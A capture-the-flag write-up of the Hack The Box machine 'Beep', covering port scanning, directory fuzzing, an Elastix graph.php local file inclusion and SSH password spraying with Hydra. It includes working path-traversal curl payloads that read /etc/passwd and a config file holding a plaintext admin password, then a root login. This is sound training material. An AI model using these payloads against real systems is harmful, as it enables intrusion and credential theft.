



+++
title = "Beep"
date = "2023-12-29"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2017-03-15

**Created by**: [ch4p](https://app.hackthebox.com/users/1)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.20`, while the target machine's IP address will be `10.10.10.7`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Beep using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.10.7 -p-
```

```
<SNIP>
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
793/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.10.7 -p 22,25,80,110,111,143,443,793,993,995,3306,4190,4445,4559,5038,10000 -sV
```

```
<SNIP>
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
793/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
<SNIP>
```

Okay, so `nmap` determined that Beep is using a UNIX-like operating system, probably Linux. The Apache version specifies that it might be CentOS.

## Scripts

Let's run `nmap`'s default scripts on these services to see if they can find additional information.

```sh
❯ nmap -sS 10.10.10.7 -p 22,25,80,110,111,143,443,793,993,995,3306,4190,4445,4559,5038,10000 -sC
```

```
<SNIP>
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3
|_pop3-capabilities: STLS EXPIRE(NEVER) USER UIDL PIPELINING TOP LOGIN-DELAY(0) APOP AUTH-RESP-CODE IMPLEMENTATION(Cyrus POP3 server v2) RESP-CODES
111/tcp   open  rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            790/udp   status
|_  100024  1            793/tcp   status
143/tcp   open  imap
|_imap-capabilities: Completed CATENATE URLAUTHA0001 ATOMIC X-NETSCAPE IDLE THREAD=REFERENCES IMAP4rev1 IMAP4 UNSELECT ACL BINARY STARTTLS LIST-SUBSCRIBED CONDSTORE LISTEXT UIDPLUS ANNOTATEMORE OK ID MAILBOX-REFERRALS SORT THREAD=ORDEREDSUBJECT SORT=MODSEQ RIGHTS=kxte LITERAL+ MULTIAPPEND NAMESPACE CHILDREN QUOTA NO RENAME
443/tcp   open  https
|_http-title: Elastix - Login page
|_ssl-date: 2023-12-29T14:33:43+00:00; +5s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
| http-robots.txt: 1 disallowed entry 
|_/
793/tcp   open  status
993/tcp   open  imaps
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
| ssl-cert: Subject: commonName=*/organizationName=Webmin Webserver on localhost.localdomain
| Not valid before: 2017-04-07T08:24:46
|_Not valid after:  2022-04-06T08:24:46
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
|_ssl-date: 2023-12-29T14:34:22+00:00; +5s from scanner time.

Host script results:
|_clock-skew: mean: 4s, deviation: 0s, median: 4s
<SNIP>
```

`nmap`'s scans found a few things.

So on port `80/tcp`, Apache's homepage has a page name indicating that we are redirected to `https://10.10.10.7/`, basically to the port `443/tcp`.

The homepage on port `443/tcp` has a 'Elastix - Login page' title, so it probably holds... a login page. The `http-robots.txt` script also found that the `/` path was disallowed in `robots.txt`, but it's not really interesting here.

Let's explore it.

## Apache (port `443/tcp`)

Let's browse to `https://10.10.10.7/` and see what we get.


So it's indeed a login page for Elastix. If we search online, we find:

> Elastix is a unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center software with predictive dialing. 
>
> — [Wikipedia](https://en.wikipedia.org/wiki/Elastix)

So this is why Beep has open ports like SMTP, POP3 and IMAP!

### HTTP headers

Let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl -k https://10.10.10.7/ -I
```

```
HTTP/1.1 200 OK
Date: Fri, 29 Dec 2023 14:54:45 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Set-Cookie: elastixSession=s6k78tttfddd68tgh7h7lb1nb4; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8
```

This confirms that the web server is Apache, and that Elastix is used. The `X-Powered-By` header indicates something new: the use of PHP version `5.1.6`. There's nothing about credentials though...

### Technology lookup

While we're at it, let's look up the technologies used by this website with the [Wappalyzer](https://www.wappalyzer.com/) extension.



Nothing new here.

### Common credentials

We can try to log in using common credentials, but to no avail.

### Directory fuzzing

Before searching for known CVEs, we need to find the version of Elastix. Let's see if we can find unliked files that might give out this information:

Let's see if we can find unliked files.

```sh
❯ ffuf -v -c -u https://10.10.10.7/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-files.txt -maxtime 60
```

```
<SNIP>
[Status: 200, Size: 1785, Words: 103, Lines: 35, Duration: 83ms]
| URL | https://10.10.10.7/index.php
    * FUZZ: index.php

[Status: 200, Size: 1785, Words: 103, Lines: 35, Duration: 72ms]
| URL | https://10.10.10.7/register.php
    * FUZZ: register.php

[Status: 200, Size: 1785, Words: 103, Lines: 35, Duration: 74ms]
| URL | https://10.10.10.7/config.php
    * FUZZ: config.php

[Status: 200, Size: 894, Words: 6, Lines: 1, Duration: 34ms]
| URL | https://10.10.10.7/favicon.ico
    * FUZZ: favicon.ico

[Status: 403, Size: 287, Words: 21, Lines: 11, Duration: 34ms]
| URL | https://10.10.10.7/.htaccess
    * FUZZ: .htaccess

[Status: 200, Size: 28, Words: 3, Lines: 3, Duration: 96ms]
| URL | https://10.10.10.7/robots.txt
    * FUZZ: robots.txt

[Status: 200, Size: 1785, Words: 103, Lines: 35, Duration: 73ms]
| URL | https://10.10.10.7/.
    * FUZZ: .

[Status: 403, Size: 283, Words: 21, Lines: 11, Duration: 35ms]
| URL | https://10.10.10.7/.html
    * FUZZ: .html

[Status: 403, Size: 287, Words: 21, Lines: 11, Duration: 34ms]
| URL | https://10.10.10.7/.htpasswd
    * FUZZ: .htpasswd

[Status: 403, Size: 282, Words: 21, Lines: 11, Duration: 34ms]
| URL | https://10.10.10.7/.htm
    * FUZZ: .htm

[Status: 403, Size: 288, Words: 21, Lines: 11, Duration: 51ms]
| URL | https://10.10.10.7/.htpasswds
    * FUZZ: .htpasswds

[Status: 403, Size: 286, Words: 21, Lines: 11, Duration: 34ms]
| URL | https://10.10.10.7/.htgroup
    * FUZZ: .htgroup

[Status: 403, Size: 291, Words: 21, Lines: 11, Duration: 60ms]
| URL | https://10.10.10.7/.htaccess.bak
    * FUZZ: .htaccess.bak

[Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 37ms]
| URL | https://10.10.10.7/.htuser
    * FUZZ: .htuser
<SNIP>
```

The `register.php` and `config.php` files have interesting names, but they both yield the same login page as before.

```sh
❯ ffuf -v -c -u https://10.10.10.7/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -maxtime 60
```

```
<SNIP>
[Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 34ms]
| URL | https://10.10.10.7/admin
| --> | https://10.10.10.7/admin/
    * FUZZ: admin

[Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 34ms]
| URL | https://10.10.10.7/modules
| --> | https://10.10.10.7/modules/
    * FUZZ: modules

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 33ms]
| URL | https://10.10.10.7/themes
| --> | https://10.10.10.7/themes/
    * FUZZ: themes

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 35ms]
| URL | https://10.10.10.7/images
| --> | https://10.10.10.7/images/
    * FUZZ: images

[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 58ms]
| URL | https://10.10.10.7/help
| --> | https://10.10.10.7/help/
    * FUZZ: help

[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 37ms]
| URL | https://10.10.10.7/var
| --> | https://10.10.10.7/var/
    * FUZZ: var

[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 55ms]
| URL | https://10.10.10.7/mail
| --> | https://10.10.10.7/mail/
    * FUZZ: mail

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 34ms]
| URL | https://10.10.10.7/static
| --> | https://10.10.10.7/static/
    * FUZZ: static

[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 36ms]
| URL | https://10.10.10.7/lang
| --> | https://10.10.10.7/lang/
    * FUZZ: lang

[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 35ms]
| URL | https://10.10.10.7/libs
| --> | https://10.10.10.7/libs/
    * FUZZ: libs

[Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 35ms]
| URL | https://10.10.10.7/panel
| --> | https://10.10.10.7/panel/
    * FUZZ: panel

[Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 52ms]
| URL | https://10.10.10.7/configs
| --> | https://10.10.10.7/configs/
    * FUZZ: configs

[Status: 200, Size: 1785, Words: 103, Lines: 35, Duration: 68ms]
| URL | https://10.10.10.7/
    * FUZZ: 

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 38ms]
| URL | https://10.10.10.7/recordings
| --> | https://10.10.10.7/recordings/
    * FUZZ: recordings

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 39ms]
| URL | https://10.10.10.7/vtigercrm
| --> | https://10.10.10.7/vtigercrm/
    * FUZZ: vtigercrm
<SNIP>
```

We got a few hits, but they all return `301` error codes.

The `/admin` is interesting though... if we try to access it anyways, we arsked to authenticate. 

### Known CVEs

I failed to find the version number of Elastix, so I'll have to try all the exploits I find — if I find any.

Let's search [ExploitDB](https://www.exploit-db.com/) for `Elastix`. There's several results, but only one of them works on Beep: [Elastix 2.2.0 - 'graph.php' Local File Inclusion ](https://www.exploit-db.com/exploits/37637).

### LFI

The `Elastix` application version `2.2.0` prone to a LFI vulnerability because it fails to properly sanitize user-supplied input. The issue lies specifically in the `graph.php` page: if we specify a specially crafted value to the `current_language` HTTP parameter, we can read any local file.

Let's try to use the LFI to read the file `/etc/hosts`, by following the PoC:

```sh
❯ curl -k 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/hosts%00&module=Accounts&action'
```

```
# Do not remove the following line, or various programs
# that require network functionality will fail.
127.0.0.1       localhost       beep localhost.localdomain localhost
::1             localhost6.localdomain6 localhost6
Sorry! Attempt to access restricted file.
```

It works!

The PoC suggests to include `/etc/amportal.conf`, the config file for FreePBX, a web-based graphical user interface for Asterisk (which is part of Elastix) responsible for handling the configuration and management of Asterisk. This is probably the technology behind the login page we encountered on the homepage!

Let's retrieve the content of this config file.

```sh
❯ curl -k 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action'
```

```
<SNIP>
# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin

# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
<SNIP>
```

There's a lot of output, but I immediately noticed potential credentials.

### Dashboard

Let's try these credentials.



It worked!

I searched for functionalities that would give me RCE, but I found none. Back to known CVEs, none of them would give me RCE neither...

# Foothold (SSH)

## Retrieving the list of users

Let's remotely retrieve the list of users on Beep using our LFI:

```sh
❯ curl -k 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action' | grep "sh$" | cut -d: -f1
```

```
root
mysql
cyrus
asterisk
spamfilter
fanis
```

Alright. Now let's try the credentials we got for each of these users.

## Testing the password for each user

It would be pretty quick to do it by hand, but let's get fancy and use Hydra instead. I'll create a `users` file in `/workspace` holding these usernames.

Now let's try all of them with the password we found.

```sh
❯ hydra 10.10.10.7 -L /workspace/users -p jEhdIekWmdjE -t 4 -f ssh
```

```
<SNIP>
[DATA] attacking ssh://10.10.10.7:22/
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
<SNIP>
```

The credentials `root`:`jEhdIekWmdjE` are valid!

## Connection

Let's use them to connect to Beep as `root`.

```sh
❯ ssh root@10.10.10.7
```

```
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (DSA) to the list of known hosts.
root@10.10.10.7's password: 
<SNIP>

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]#
```

Nice! We got a shell as `root`.

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the flags.

We can find the user flag in `fanis`'s home folder:

```sh
[root@beep ~]# cat /home/fanis/user.txt
```

```
22bc52e74e063b067900938b6b1fe2c5
```

The root flag, as is customary, can be found in `/root`.

```sh
[root@beep ~]# cat ~/root.txt
```

```
e3e0e02aa10e70ea2401af8baab8e5f6
```

# Afterwords



That's it for this box! I found the foothold quite easy to obtain, it only required to search for known exploits. There's was a privilege esclation part, so overall this box was really easy and short compared to others.

Thanks for reading!